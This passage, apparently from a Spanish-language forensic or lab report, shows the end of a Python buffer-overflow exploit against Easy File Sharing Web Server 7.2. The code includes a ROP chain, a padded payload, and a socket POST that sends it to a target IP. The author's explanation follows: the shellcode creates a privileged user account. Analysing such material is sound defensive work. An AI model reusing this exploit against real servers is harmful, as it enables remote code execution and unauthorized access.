 ```python
        0x1001a858,  # RETN (ROP NOP) [ImageLoad.dll]
        0x10015442,  # POP EAX # RETN [ImageLoad.dll]
        0x90909090,  # nop
        0x100240c2,  # PUSHAD # RETN [ImageLoad.dll]
    ]
    return ''.join(struct.pack('<I', _) for _ in rop_gadgets)

rop_chain = create_rop_chain()

payload = "A"*2278 + rop_chain + "\x90"*4 +  Shellcode4 + "B"*(1790-len(Shellcode4)-len(rop_chain)) + ret

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((sys.argv[1], 8089))
s.send("POST /sendemail.ghp HTTP/1.1\r\n\r\nEmail=" + payload + "&getPassword=Get+Password")
print "[+] Envio del exploit"
print "[+] Cargado Payload"
print "[+] Creado usuario ihacklabs con password" + " " +" Ihack12/"
s.close()
```

Tras pasar el contenido del archivo por ChatGPT para buscar que vulnerabilidad intenta explotar conseguimos descubrir lo siguiente: 
- El archivo busca explotar una vulnerabilidad de desbordamiento de búfer en el software Easy File Sharing Web Server versión 7.2.

- El exploit se aprovecha de un desbordamiento de búfer en la funcionalidad de manejo de solicitudes POST del servidor web objetivo. Al enviar una carga de codigo maliciosa el atacante puede ejecutar código malicioso en el sistema que qhaya seleccionado. 

- El script requiere que se le pase la dirección IP del servidor vulnerable como dato y utilizará una librería (llamada socket) para conectarse al servidor.

- La parte de ShellCode ejecuta un código malicioso en el servidor donde intenta crear un usuario en el sistema con credenciales. 

- Si se llega a ejecutar este script en un servidor el atacante podría tener acceso al servidor a través de la creación de un usuario remoto que tiene privilegios por lo que es muy peligroso. 

En LastActivityView podemos ver cuando se ejecuto dicho script. 

![alt text](img/img_ale/3.png)

